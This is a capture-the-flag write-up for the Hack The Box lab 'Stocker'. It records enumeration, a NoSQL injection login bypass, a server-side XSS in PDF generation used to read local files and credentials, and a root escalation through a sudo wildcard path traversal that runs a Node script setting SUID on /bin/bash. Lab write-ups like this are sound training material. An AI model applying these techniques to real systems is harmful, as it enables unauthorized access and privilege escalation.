# Stocker
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.10.11.196
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.04 seconds
```

## 2. TCP-80
First of all we can add `stocker.htb` to `/etc/hosts` and then visit the site. 



Let's enumerate with `gobuster`. I didn't find any subdirectories but subdomains yes.

```bash
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/asd/Scaricati/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/05/10 11:03:19 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
                                               
===============================================================
2023/05/10 11:04:21 Finished
===============================================================
```

I add the domain to the hosts and visit the site.

<p align="center">
  
</p>

Let's enumerate the subdirectory with `dirb`.

```bash
└─$ dirb http://dev.stocker.htb/ /home/asd/Scaricati/SecLists/Discovery/Web-Content/common.txt                     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 10 11:36:52 2023
URL_BASE: http://dev.stocker.htb/
WORDLIST_FILES: /home/asd/Scaricati/SecLists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4710                                                          

---- Scanning URL: http://dev.stocker.htb/ ----
+ http://dev.stocker.htb/Login (CODE:200|SIZE:2667)                                                               
+ http://dev.stocker.htb/login (CODE:200|SIZE:2667)                                                               
+ http://dev.stocker.htb/logout (CODE:302|SIZE:28)                                                                
+ http://dev.stocker.htb/static (CODE:301|SIZE:179)                                                               
+ http://dev.stocker.htb/stock (CODE:302|SIZE:48)                                                                 
                                                                                                                  
-----------------
END_TIME: Wed May 10 11:46:57 2023
DOWNLOADED: 4710 - FOUND: 5
```

Ok, we visit `/stock`.



### 2.1 Other possible solution to bypass login and get /stock
#
Simultaneously with the execution of `dirb`, I tried to get more information by trying to bypass the login via SQL Injection and inspecting the source code, but without success, so I tried a NoSQL Injection. First I intercepted the request with `burp`, then I followed the [HackTrick](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) article by changing the " `Content-Type`" in `application/json` and bypassed authentication.

<p align="center">
  
</p>

## 3. XSS
At this point, it is interesting to observe that, when a purchase is made, a PDF is generated showing the items purchased.



By analyzing the Burp history, it is possible to find the APIs that are called at the time of purchase, as well as the sent payload.

<p align="center">
  
</p>

Very interesting is the fact that the "title" field can be modified and this modification is present in the generated PDF.

<p align="center">
  
</p>

To get more information about the PDF, I downloaded it and parsed the metadata with `exiftool`.

```bash
└─$ exiftool document.pdf 
ExifTool Version Number         : 12.39
File Name                       : document.pdf
Directory                       : .
File Size                       : 39 KiB
File Modification Date/Time     : 2023:05:10 12:09:02-04:00
File Access Date/Time           : 2023:05:10 12:09:17-04:00
File Inode Change Date/Time     : 2023:05:10 12:09:17-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:05:10 15:55:13+00:00
Modify Date                     : 2023:05:10 15:55:13+00:00
```

The PDF is generated via "`Skia/PDF m108`" and googling for a possible exploit, the first result is a [HackTricks article](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) which talks about XSS. So I tried putting a payload in the title that uses the "iframe" tag to read `/etc/passwd` and it worked.

<p align="center">
  
</p>

To get a better result I resized the "iframe" including the dimensions.

<p align="center">
  
</p>

As indicated in the header of the responses intercepted with Burp, the server is `nginx`, so let's read the configuration file "/etc/nginx/nginx.conf".

<p align="center">
  
</p>

As we already knew, the "dev" virtual host exists, but now we have info on where it operates.

Another interesting information that can be found in the response header is the presence of the "`X-Powered-By`" field which gives us information about the technology (e.g. ASP.NET PHP JBoss) that supports the application web. In that field is the technology called "Express" which is a web application framework for Node.js. So it looked for the presence, in "/var/www/dev", of pages that respect the Node.js naming scheme and found the page "`index.js`".

<p align="center">
  
</p>

Nice, we have some credentials to use to connect via SSH and get the user flag.

```bash
└─$ ssh angoose@10.10.11.196
The authenticity of host '10.10.11.196 (10.10.11.196)' can't be established.
ED25519 key fingerprint is SHA256:jqYjSiavS/WjCMCrDzjEo7AcpCFS07X3OLtbGHo/7LQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.196' (ED25519) to the list of known hosts.
angoose@10.10.11.196's password: 
Last login: Wed May 10 16:23:27 2023 from 10.10.14.116
angoose@stocker:~$ ls
user.txt
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose@stocker:~$ cat useer
cat: useer: No such file or directory
angoose@stocker:~$ cat user.txt 
e17b7c708d6441f148195d7fcd52b937
```

## 4. User to ROOT
Running the "`sudo -l`" command a couple of times, to throw it into error, returns some very interesting information.

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Ok, we can use `node` to run a script.js as root. 

So the steps to perform are the following:

1. Create a simple javascript program that adds the SUID to `/bin/bash`;
2. Run the created script as root using `node`;
3. Run the `bash -p` command to be root and get the flag.

```bash
angoose@stocker:~$ echo "require('child_process').exec('chmod u+s /bin/bash')" > getshell.js
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/getshell.js 
angoose@stocker:~$ bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
bash-5.0# cat /root/root.txt 
01bcfa8502d24451ee1fa193a0559fab
```